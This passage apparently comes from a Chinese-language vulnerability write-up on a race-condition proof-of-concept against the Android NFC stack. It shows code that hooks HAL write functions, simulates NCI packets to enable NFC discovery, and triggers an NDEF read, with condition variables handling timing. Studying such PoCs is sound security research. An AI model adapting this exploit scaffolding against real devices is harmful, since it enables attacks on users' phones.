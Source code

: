 符合条件就会解除调用 reset_done_cv.notify_one() 阻塞. 这里重载 HAL 函数指针的优势就显现出来了. FakeWrite 函数除了向 HAL 发送 / 写入数据之外, 还增加了解除 poc 中各种条件变量阻塞的功能方便了在竞态漏洞利用中进行时序同步

### part3

代码是

```
NFA_EnableListening();
NFA_EnablePolling(NFA_TECHNOLOGY_MASK_F | NFA_TECHNOLOGY_MASK_V);
 
NFA_EnableDtamode(NFA_DTA_DEFAULT_MODE);
NFA_StartRfDiscovery();
 
{
  std::unique_lock enable_lock(cv_mutex);
  enable_cv.wait(enable_lock);
}
 
std::vector init_core = {0x0,  0xa, 0x3,  0xca, 0xff, 0xff, 0xff,
                                  0xff, 0x2, 0xe0, 0xe0, 0xe0, 0xe0, 0xe0};
g_callback_tracker->SimulatePacketArrival(NCI_MT_RSP, 0, NCI_GID_CORE,
                                          NCI_MSG_CORE_INIT, init_core.data(),
                                          init_core.size());
 
g_callback_tracker->SimulateHALEvent(HAL_NFC_POST_INIT_CPLT_EVT,
                                     HAL_NFC_STATUS_OK);
 
{
  std::unique_lock nfa_enable_lock(cv_mutex);
  nfa_enable_cv.wait(nfa_enable_lock);
}
 
std::vector discover_rf = {0x0};
g_callback_tracker->SimulatePacketArrival(
    NCI_MT_RSP, 0, NCI_GID_RF_MANAGE, NCI_MSG_RF_DISCOVER, discover_rf.data(),
    discover_rf.size());
 
{
  std::unique_lock rf_discovery_started_lock(cv_mutex);
  rf_discovery_started_cv.wait(rf_discovery_started_lock);
} 
```

将 NFC 开启, 并进入 discovery 模式

### part4

代码是

```
NFA_RwReadNDef();
{
  std::unique_lock i93_detect_lock(cv_mutex);
  i93_detect_cv.wait(i93_detect_lock);
} 
```
